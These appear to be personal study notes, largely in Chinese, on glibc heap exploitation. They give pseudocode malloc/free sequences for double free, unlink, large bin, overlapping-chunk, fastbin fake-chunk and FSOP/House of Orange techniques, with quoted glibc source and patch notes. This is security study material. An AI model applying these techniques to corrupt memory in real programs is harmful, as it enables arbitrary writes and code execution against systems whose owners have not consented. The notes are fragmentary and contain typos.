wget https://ftp.gnu.org/gnu/libc/glibc-2.25.tar.gz
tar xvf glibc-2.25.tar.bz2
mkdir gcc225——build
cd gcc225_build/
../glibc-2.25/configure --prefix=/usr/local/glibc225
sudo mkdir /usr/local/glibc225
sudo make install#smallbin #double_free #得到两个相同堆块
条件：double free
malloc(smbin1)
malloc(smbin2)
free(smbin1)
malloc(lgbin3)触发malloc_consolidate，此时smbin1移入unsorted bin，并没有在fastbin top，故再次free不会报错
free(smbin1)
*p1=malloc(smbin1)
*p2=malloc(smbin1)
p1与p2相同
#smallbin #double_free #任意地址写
条件：double free
malloc(a1)
malloc(a2)
malloc(a3)
free(a1)
free(a2) 使得fastbin top 不是a1，故再次free(a1)不会报错
free(a1) fastbin : a1 a2 a1
malloc(a1)
malloc(a2)
edit(a1,&victim - sizeof(a1) - 0x8 )
malloc(a1)
malloc(a1) get victim
#unlink #fake_chunk #任意地址写
条件：overwrite chunk 1 header
&chunk 0,1为全局变量

free(chunk 1) 触发堆块合并，用victim覆盖&chunk 0
#large_bin #任意地址写
条件：overwrite
lgbin1->bk
malloc(lgbin1)
malloc(lgbin2) 防止free(lgbin1)时top chunk和lgbin1合并
free(lgbin1) after lgbin1 freed

修改lgbin1->bk为 &victim - 0x10 (32位&victim - 0x8)

malloc(lgbin1) 得到victim
#large_bin
条件：overwrite
lgbin1->bk,lgbin1->size
malloc(lgbin1)
malloc(lgbin2) 防止后面free(lgbin1)时lgbin1与top chunk 合并
free(lgbin1)
开始在栈上伪造堆块
stack_buffer[1] = 0x100 + 0x10;
stack_buffer[3] = victim;
绕过检查2*SIZE_SZ (> 16 on x64) && < av->system_mem
伪造的lgbin1->size!=下一次malloc的size

mallic(0x100)
#large_bin
条件：overwrite
victim->sizevictim->bkvictim->bk_nextsize
*p1 = malloc(0x320)
malloc(0x20) 防止free(p1)时p1与下一个large bin合并
*p2 = malloc(0x400)
malloc(0x20)
*p3 = malloc(0x400)
malloc(0x20)
free(p1)
free(p2)
unsorted bin: [ p2 <--> p1 ]
malloc(0x90)
p2进入large bin: [p2]
p1切割后剩下的重新进入unsorted bin: [p1_remainder]
free(p3) p3进入unsorted bin: [p3<—>p1_remainder]
overwrite p2 to:

malloc(0x90)
#large_bin #unsorted_bin
条件：overwrite
victim->size描述：free fake malloc
*p1=malloc(0x100)
*p2=malloc(0x100)
*p3=malloc(0x80)
free(p2)
overwrite p2->size to (0x180|pre_inuse)

*p4 = malloc(0x180-0x8)
p4包含了p3

Nonadjacent Free Chunk Consolidation Attack
条件：overwrite
victim->size描述：fake free malloc
*p1=malloc(1000)
*p2=malloc(1000)
*p3=malloc(1000)
*p4=malloc(1000)
*p5=malloc(1000) 使得p4不是top chunk
free(p4)
开始用
real_size_p2+real_size_p3+prev_in_use+sizeof(size_t)*2
overwrite p2->size

free(p2)
*p6=malloc(2000)
p6包含p3

#fastbin_attack
描述：任意地址free，free一个伪造的堆块，再次申请时新的堆块从该地址开始
This chunk.size of this region has to be 16 more than the region (to accomodate the chunk data) while still falling into the fastbin category (<= 128 on x64). The PREV_INUSE (lsb) bit is ignored by free for fastbin-sized chunks, however the IS_MMAPPED (second lsb) and NON_MAIN_ARENA (third lsb) bits cause problems.
... note that this has to be the size of the next malloc request rounded to the internal size used by the malloc implementation. E.g. on x64, 0x30-0x38 will all be rounded to 0x40, so they would work for the malloc parameter at the end.
The chunk.size of the *next* fake region has to be sane. That is > 2*SIZE_SZ (> 16 on x64) && < av->system_mem (< 128kb by default for the main arena) to pass the nextsize integrity checks. No need for fastbin size.条件：
size必须能够落入fastbin (<= 128 on x64)fastbin大小限制
next->size必须> 2*SIZE_SZ (> 16 on x64) && < av->system_mem (< 128kb by default for the main arena)nextsize完整性校验
受IS_MMAPPED 和NON_MAIN_ARENA 位影响
#fsop #glibc<2_24
The attack vector of this technique was removed by changing the behavior of malloc_printerr, which is no longer calling _IO_flush_all_lockp, in 91e7cf982d0104f0e71770f5ae8e3faf352dea9f (2.26)
Since glibc 2.24 _IO_FILE vtable are checked against a whitelist breaking this exploit,https://sourceware.org/git/?p=glibc.git;a=commit;h=db3476aff19b75c4fdefbe65fcd5f0a90588ba51
FSOP
伪造_IO_list_all结构中的jump_table[3为目标函数并预先布置好参数，修改堆结构使得malloc时出错，从而调用_IO_flush_all_lockp，进而在该函数中调用_IO_OVERFLOW（即jump_table[3]）
jump_table = base_address+sizeof(_IO_FILE) 0xd8
glibc2.26开始失效。
glibc2.24开始添加对_IO_FILE.vtable的检查：
libio: Implement vtable verification [BZ #20191]
This commit puts all libio vtables in a dedicated, read-only ELF
section, so that they are consecutive in memory. Before any indirect
jump, the vtable pointer is checked against the section boundaries,
and the process is terminated if the vtable pointer does not fall into
the special ELF section.
To enable backwards compatibility, a special flag variable
(_IO_accept_foreign_vtables), protected by the pointer guard, avoids
process termination if libio stream object constructor functions have
been called earlier. Such constructor functions are called by the GCC
2.95 libstdc++ library, and this mechanism ensures compatibility with
old binaries. Existing callers inside glibc of these functions are
adjusted to call the original functions, not the wrappers which enable
vtable compatiblity.
The compatibility mechanism is used to enable passing FILE * objects
across a static dlopen boundary, too.The House of Orange uses an overflow in the heap to corrupt the _IO_list_all pointer
It requires a leak of the heap and the libc#smallbin_corruption
条件：
else
{
bck = victim->bk;
if (__glibc_unlikely (bck->fd != victim)){
errstr = "malloc(): smallbin double linked list corrupted";
goto errout;
}
set_inuse_bit_at_offset (victim, nb);
bin->bk = bck;
bck->fd = bin;
[ ... ]*victim = malloc(0x100)

malloc(1000) 防止free(victim)时，victim和top chunk合并
free(victim)
*p2 = malloc(1200)
vul here:
overwrite victim->bk=fake chunk 1 header

*p3 = malloc(100) 与p1等大小
fd [ victim <———> fake chunk 1 <———> fake chunk 2 ] bk
*p4 = malloc(100)
1.sources analyze
2.house of force,einherjar